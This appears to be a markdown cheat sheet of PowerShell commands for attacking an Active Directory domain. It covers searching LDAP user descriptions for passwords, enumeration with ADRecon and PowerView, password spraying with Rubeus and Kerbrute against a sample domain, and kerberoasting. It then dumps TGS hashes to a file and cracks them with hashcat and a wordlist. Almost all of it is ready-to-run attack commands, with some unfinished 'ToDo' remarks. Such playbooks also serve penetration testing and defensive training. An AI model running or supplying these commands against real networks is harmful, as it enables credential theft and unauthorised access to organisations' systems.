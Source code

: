 # 1. Sensitive Data in LDAP

## Start ADExplorer and search through the AD for sensitive information
PS> adexplorer.exe

ADexplorer> search user description field contains pw, pwd, password, pass

## Enumerate the AD with ADRecon
PS> .\ADRecon.ps1

PS> .\ADRecon.ps1 -GenExcel .\ADRecon-Report-timestamp

TODO: wget Excel file since Excel will not be installed

# 2. Password Spraying
## Identify the standard domain password and start a password spray attack
### Use Rubeus
PS> .\Rubeus.exe brute /password:Start123!

### Use Kerbrute
PS> Invoke-WebRequest "https://github.com/ropnop/kerbrute/releases/download/v1.0.3/kerbrute_windows_amd64.exe" -OutFile ".\kerbrute.exe"

PS> Import-Module .\PowerView.ps1

PS> (Get-NetUser | select samAccountName).samAccountName > users.txt

PS> .\kerbrute.exe passwordspray --domain contoso.azure .\users.txt Start123!

ToDo error

# 3. Kerberoasting
## Identify Kerberoastable users
### PowerView
PS> Import-Module .\PowerView.ps1

PS> Get-NetUser | Where-Object {$_.servicePrincipalName} | fl

PS> Get-NetUser -SPN | ft serviceprincipalname, samaccountname, cn, pwdlastset 

### PowerView-Dev
PS> Import-Module .\PowerView-dev.ps1

PS> Get-DomainUser | Where-Object {$_.servicePrincipalName} | fl

PS> Get-DomainUser -SPN | ft serviceprincipalname, samaccountname, cn, pwdlastset 

### Invoke-Kerberoast
PS> Import-Module .\Invoke-Kerberoast.ps1

PS> Invoke-Kerberoast

### Rubeus
PS> .\Rubeus.exe kerberoast

## Get TGS Kerberos Tickets
### PowerView-Dev
PS> Import-Module .\PowerView-dev.ps1

Get-DomainUser -SPN | Get-DomainSPNTicket -OutputFormat Hashcat | % { $_.Hash } | Out-File -Encoding ASCII kerberoasted.txt

### Invoke-Kerberoast
PS> Import-Module .\Invoke-Kerberoast.ps1

PS> Invoke-Kerberoast | % { $_.Hash } | Out-File -Encoding ASCII kerberoasted.txt

### Rubeus
PS> .\Rubeus.exe kerberoast /outfile:kerberoasted.txt

## Crack TGS tickets
PS> hashcat -a 0 -m 13100 kerberoasted.txt /usr/share/wordlists/rockyou.txt


